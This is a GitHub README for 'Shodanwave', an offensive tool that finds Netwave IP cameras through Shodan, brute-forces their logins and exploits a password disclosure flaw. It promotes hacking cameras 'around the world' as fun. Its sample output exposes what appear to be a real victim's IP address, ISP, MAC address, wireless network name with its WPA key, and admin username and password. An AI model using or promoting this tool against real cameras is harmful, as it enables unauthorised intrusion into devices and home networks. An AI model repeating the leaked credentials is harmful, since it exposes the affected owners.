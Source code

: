 # Shadonwave 

Shodanwave is a tool for exploring and obtaining information from cameras specifically Netwave IP Camera. The tool uses a search engine called shodan that makes it easy to search for cameras online but not only that.

Hack network cameras around the world, Very fun!

What does the tool to? Look, a list!

 * Search 
 * Brute force
 * SSID and WPAPSK Password Disclosure
 * Exploit


Here is an example of shodan wave running ...

```

Usage: python shodanwave.py -u usernames.txt -w passwords.txt  -k Shodan API key
         __              __                                   
   _____/ /_  ____  ____/ /___ _____ _      ______ __   _____ 
  / ___/ __ \/ __ \/ __  / __ `/ __ \ | /| / / __ `/ | / / _ \
 (__  ) / / / /_/ / /_/ / /_/ / / / / |/ |/ / /_/ /| |/ /  __/
/____/_/ /_/\____/\__,_/\__,_/_/ /_/|__/|__/\__,_/ |___/\___/ 
                                                              

This tool is successfully connected to shodan service
Information the use of this tool is illegal, not bad.

[+] Shodan successfully Connected.
[+] Shodan Exploit Enabled.
[+] Netwave IP Camera Found: 111307
[+] Passwords loaded: 12
[!] Disable password discovery module? (S/n): N
[+] Launching brute force on host http://186.193.55.18:8080
[!] Password not found
[!] Getting System Information
[!] Getting Wireless System Information
[+] Mac address found E8ABFA1A9374
[+] Host: http://186.193.55.18:8080
[+] Country: n/a
[+] Organization: Nettel Telecomunicações Ltda.
[+] Product: Netwave IP camera http config
[+] SSID: moslekok
[+] WPAPSK: TulSokanLoptatok
[+] Starting to read memory dump.. this could take a few minutes
[+] CTRL+C to exit..
[+] Binary data: 70560
[+] Strings in binary data found.. password should be around line 10000
10108
[+] Mac address triggered.. printing the following dumps, could leak username and passwords..
[+] Firstline... CAMERA2
[+] Possible username: admin
[+] Possible password: ac00310
[+] Following line.. 

```
### Install Requirements
```
pip install -r /path/to/requirements.txt
```

### References:

 * [Shodan API](https://www.shodan.io/)  search engine for Internet-connected devices.
 * [Requests](http://docs.python-requests.org/en/master/) Requests: HTTP for Humans
 * [Netwave Exploit](https://www.exploit-db.com/exploits/41236/) Netwave IP Camera - Password Disclosure
